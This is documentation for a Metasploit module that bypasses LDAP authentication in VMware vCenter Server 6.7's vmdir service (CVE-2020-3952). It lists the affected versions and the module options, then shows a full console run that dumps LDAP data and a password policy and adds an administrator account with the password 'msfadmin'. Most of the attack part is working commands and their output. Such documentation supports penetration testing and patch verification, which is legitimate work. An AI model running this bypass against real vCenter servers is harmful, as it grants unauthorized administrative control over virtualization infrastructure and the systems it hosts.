 ## Vulnerable Application

### Description

This module bypasses LDAP authentication in VMware vCenter Server's
vmdir service to add an arbitrary administrator user.

Version 6.7 prior to the 6.7U3f update is vulnerable. Only installations
upgraded from a previous release line, such as 6.0 or 6.5, are affected.
Clean installations of 6.7 are unaffected.

### Setup

Tested in the wild. No setup notes available at this time.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Add

Add an admin user to the target.

## Options

### USERNAME

Set this to the username for the new admin user.

### PASSWORD

Set this to the password for the new admin user.

### ConnectTimeout

You may configure the timeout for LDAP connects if necessary. The
default is 10.0 seconds and should be more than sufficient.

## Scenarios

### VMware vCenter Server 6.7

```
msf5 > use auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > options

Module options (auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Password of admin user to add
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     389              yes       The target port
   USERNAME                   no        Username of admin user to add


Auxiliary action:

   Name  Description
   ----  -----------
   Add   Add an admin user


msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set rhosts [redacted]
rhosts => [redacted]
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set username msfadmin
username => msfadmin
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set password msfadmin
password => msfadmin
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > run
[*] Running module against [redacted]

[*] Using auxiliary/gather/vmware_vcenter_vmdir_ldap as check
[*] Discovering base DN automatically
[*] Searching root DSE for base DN
dn: cn=DSE Root
namingcontexts: dc=vsphere,dc=local
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.1
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.2
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.3
supportedcontrol: 1.2.840.113556.1.4.417
supportedcontrol: 1.2.840.113556.1.4.319
supportedldapversion: 3
supportedsaslmechanisms: GSSAPI

[+] Discovered base DN: dc=vsphere,dc=local
[*] Dumping LDAP data from vmdir service at [redacted]:389
[+] [redacted]:389 is vulnerable to CVE-2020-3952
[*] Storing LDAP data in loot
[+] Saved LDAP data to /Users/wvu/.msf4/loot/20200417002255_default_[redacted]_VMwarevCenterS_975097.txt
[*] Password and lockout policy:
dn: cn=password and lockout policy,dc=vsphere,dc=local
cn: password and lockout policy
enabled: TRUE
ntsecuritydescriptor:: [redacted]
objectclass: top
objectclass: vmwLockoutPolicy
objectclass: vmwPasswordPolicy
objectclass: vmwPolicy
vmwpasswordchangeautounlockintervalsec: [redacted]
vmwpasswordchangefailedattemptintervalsec: [redacted]
vmwpasswordchangemaxfailedattempts: [redacted]
vmwpasswordlifetimedays: [redacted]
vmwpasswordmaxidenticaladjacentchars: [redacted]
vmwpasswordmaxlength: [redacted]
vmwpasswordminalphabeticcount: [redacted]
vmwpasswordminlength: [redacted]
vmwpasswordminlowercasecount: [redacted]
vmwpasswordminnumericcount: [redacted]
vmwpasswordminspecialcharcount: [redacted]
vmwpasswordminuppercasecount: [redacted]
vmwpasswordprohibitedpreviouscount: [redacted]

[*] Bypassing LDAP auth in vmdir service at [redacted]:389
[*] Adding admin user msfadmin with password msfadmin
[+] Added user msfadmin, so auth bypass was successful!
[+] Added user msfadmin to admin group
[*] Auxiliary module execution completed
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) >
```
